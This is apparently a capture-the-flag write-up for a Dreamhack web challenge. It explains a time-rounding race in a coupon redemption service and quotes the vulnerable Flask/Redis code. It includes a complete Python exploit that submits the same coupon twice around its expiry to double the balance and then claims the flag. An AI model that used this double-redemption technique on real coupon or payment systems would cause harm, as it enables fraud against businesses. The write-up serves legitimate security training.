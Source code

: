 # solution

Well, from the description of challenge, i guess its maybe 90% race conditions. Let's take a look at the source code to see do i properly guess.
![alt text](image.png)![alt text](image-1.png) <br>
I think you should focus more on this part. Mention a bit, you cannt claim twice when you submit the coupon. Oke so after 45s is the time that coupon is expired and race_limit equal 10s. So we can race condition by send parallel requests to server. Remember time in this challenge is counted in second. At 46 seconds the coupon expires, so what if it's 45.7 for example? Why we wonder that cause we can bypass

```
if coupon['expiration'] < int(time()):
        raise BadRequest('Coupon expired!')
```

and also that time value of **used_coupon** had removed so it can trigger this if function and we will get more 1000$.

```
if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')

        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
```

Lets try this python code (This challenge relates to time so dont feel confused if you not get more 1000$, just try again 3 4 times more. In my case, i need to run my code 5 times).

```
import requests
import json
import time

url = "http://host3.dreamhack.games:14172/"
session_id = "906493e537b942ec8b540e1e2aeb27fb"

def claim_coupon(session):
    headers = {"Authorization": session}
    res = requests.get(url + "coupon/claim", headers=headers)
    if res.status_code == 200:
        coupon = json.loads(res.text)["coupon"]
        print("Coupon claimed successfully")
        print("Coupon:", coupon)
        return coupon
    else:
        raise Exception("Failed to claim coupon")

def submit_coupon(session, coupon):
    headers = {"Authorization": session, "coupon": coupon}
    res = requests.get(url + "coupon/submit", headers=headers)
    print("1st response:", res.text)
    if res.status_code != 200:
        raise Exception("Failed to submit first coupon")

    print("Waiting 45 seconds...")
    start_time = time.time()

    while time.time() - start_time < 44.8:
        elapsed_time = time.time() - start_time
        print(f"Elapsed time: {int(elapsed_time)} seconds", end='\r')
        time.sleep(1)

    print("complete!")

    res = requests.get(url + "coupon/submit", headers=headers)
    print("2nd response:", res.text)
    if res.status_code != 200:
        raise Exception("Failed to submit 2nd coupon")

def claim_flag(session):
    headers = {"Authorization": session}
    res = requests.get(url + "/flag/claim", headers=headers)
    flag = json.loads(res.text)["message"]
    print("Flag:", flag)

if __name__ == "__main__":
    try:
        session = session_id
        coupon = claim_coupon(session)
        submit_coupon(session, coupon)
        claim_flag(session)
    except Exception as e:
        print(e)
```
